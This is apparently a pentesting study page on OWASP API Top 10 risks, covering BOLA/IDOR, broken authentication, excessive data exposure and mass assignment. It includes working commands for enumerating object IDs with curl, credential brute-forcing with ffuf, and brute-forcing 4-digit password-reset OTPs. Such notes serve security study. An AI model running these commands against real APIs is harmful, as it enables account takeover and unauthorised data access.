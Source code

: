 ```yaml
---
layout: default
title: API attacks
permalink: /Web/API/
---
```


# OWASP API Top 10 Security Risks using a RESTful web API

## Broken Object Level Authorization (BOLA)
Web APIs allow users to request data or records by sending various parameters, including unique identifiers such as Universally Unique Identifiers (UUIDs), also known as Globally Unique Identifiers (GUIDs), and integer IDs. Failing to properly verify that a user has permission to view a specific resource through object-level authorization mechanisms can lead to security vulnerabilities.
BOLA also known as an Insecure Direct Object Reference (IDOR) vulnerability.

Mass abuse BOLA from terminal:
```
for ((i=1; i<=20; i++));
do curl -s -w "\n" -X 'GET' \
'http://$ip:$port/endpoint/'$i'' \
-H 'accept: application/json' \
-H 'Authorization: Bearer eyJhbG<SNIP>' | jq;
done
```

## Broken Authentication
No rate-limiting on the endpoint, so brute-forcing is possible.
```
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://$ip:$port/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
```
### Brute-forcing OTPs and Answers of Security Questions
If brute-forcing passwords is infeasible due to strong password policies, we can attempt to brute-force OTPs or answers to security questions to reset passwords.
Send a password reset and then fuzz the OTP:
```
ffuf -u http://$ip:$port/api/v1/authentication/customers/passwords/resets \
-X POST \
-H "accept: application/json" \
-H "Content-Type: application/json" \
-d '{"Email":"$email","OTP":"FUZZ","NewPassword":"123456"}' \
-w /opt/useful/seclists/Fuzzing/4-digits-0000-9999.txt
```
## Broken Object Property Level Authorization
### Excessive Data Exposure
Example: Exposure of Sensitive Information Due to Incompatible Policies. <br>
It is typical for e-commerce marketplaces to allow customers to view supplier details. However, if the response after invoking the `/api/v1/suppliers GET` endpoint includes also the email and phoneNumber fields of the suppliers, then costumers can circumvent the marketplace entirely and contact suppliers directly to purchase goods (at a discounted price).

### Mass Assignment
Example: Improperly Controlled Modification of Dynamically-Determined Object Attributes. <br>
Maybe the `/api/v1/supplier-companies PATCH` endpoint allows sending a value for the isExemptedFromMarketplaceFee field, making the a company not get included in the companies required to pay the marketplace fee.
